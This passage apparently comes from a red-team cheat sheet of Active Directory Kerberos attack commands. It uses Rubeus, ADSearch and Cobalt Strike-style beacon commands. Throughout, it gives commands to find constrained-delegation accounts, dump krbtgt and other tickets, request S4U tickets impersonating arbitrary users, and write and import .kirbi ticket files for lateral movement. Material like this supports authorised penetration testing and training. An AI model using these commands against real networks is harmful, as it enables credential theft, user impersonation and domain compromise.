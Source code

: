 save ticket

```
[System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\target.kirbi", [System.Convert]::FromBase64String("..."))
```

Use token and use ticket

```
 make_token DOMAIN\TARGET$ password

 kerberos_ticket_use C:\Users\Administrator\Desktop\target.kirbi
```

### Constrained Delegation

Find all accounts or computers with Constrained Delegation

```
execute-assembly C:\Tools\ADSearch\ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes cn,dnshostname,samaccountname,msds-allowedtodelegateto --json
```

list current tickets

```
execute-assembly C:\Tools\Rubeus\Rubeus.exe triage
```

dump krbtgt

```
execute-assembly C:\Tools\Rubeus\Rubeus.exe dump /luid:<LUID> /service:krbtgt /nowrap
```

request the msdsspn for a constrained delegation user/server and a known user who can access it

```
execute-assembly C:\Tools\Rubeus\Rubeus.exe s4u /impersonateuser:<USER> /msdsspn:cifs/wkstn-2.child.test.local /user:srv-2$ /ticket:do...=  /nowrap
```

Create kirbi from ticket that was returned

```
[System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\dc-2.kirbi", [System.Convert]::FromBase64String("doI...="))
```

import kirbi file

```
make_token CHILD\USER password

kerberos_ticket_use C:\Users\Administrator\Desktop\cifs-workstation.kirbi
```

### Alternate Service Name

dump krbtgt
